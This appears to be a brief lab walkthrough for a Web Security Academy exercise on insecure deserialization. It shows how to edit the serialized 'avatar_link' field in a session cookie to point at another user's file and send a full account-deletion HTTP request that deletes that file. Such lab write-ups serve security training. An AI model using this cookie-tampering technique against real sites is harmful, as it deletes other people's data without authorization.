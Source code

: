 
1. Log in;
2. Upload a photo at your home page;
3. Verify the content of the session cookie;

![](/static/img/Pasted_image_20231123183839.png)

4. Change the `avatar_link` to:

`s:11:"avatar_link";s:23:"/home/carlos/morale.txt"`

5. Encode the session with base64 and execute the following request:

```http

POST /my-account/delete HTTP/2
Host: aaaaa.web-security-academy.net
Cookie: session=<edite_session_cookie>
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://aaaaa.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

```


![](/static/img/Pasted_image_20231123183800.png)